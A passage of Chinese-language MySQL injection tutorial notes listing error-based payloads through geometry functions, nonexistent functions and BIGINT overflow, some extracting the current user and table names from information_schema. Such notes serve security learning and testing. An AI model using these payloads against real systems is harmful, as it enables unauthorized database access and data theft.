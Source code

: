 ### 几何函数

- GeometryCollection：id=1 AND GeometryCollection((select * from (select* from(select user())a)b))
- polygon()：id=1 AND polygon((select * from(select * from(select user())a)b))
- multipoint()：id=1 AND multipoint((select * from(select * from(select user())a)b))
- multilinestring()：id=1 AND multilinestring((select * from(select * from(select user())a)b))
- linestring()：id=1 AND LINESTRING((select * from(select * from(select user())a)b))
- multipolygon() ：id=1 AND multipolygon((select * from(select * from(select user())a)b))



![image.png](./MySQL注入基础.assets/2023_05_19_10_41_16_leC45ZXp.png)



### 不存在的函数
随便使用不存在的函数，可能会得到当前所在数据库的名称

![image.png](./MySQL注入基础.assets/2023_05_19_10_41_17_g8bjluka.png)

### BIGINT
当mysql数据库的某些边界数值进行数值运算时，会报错的原理。
如~0得到的结果：18446744073709551615
若此数参与运算，则很容易会错误。
```sql
select !(select * from(select user())a)-~0;
```
```sql
select * from users where id = 1 and (select !(select * from(select mid(group_concat(table_name),21,32) from information_schema.tables where table_schema = database())a)-~0);
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_17_4Zv8eblY.png)
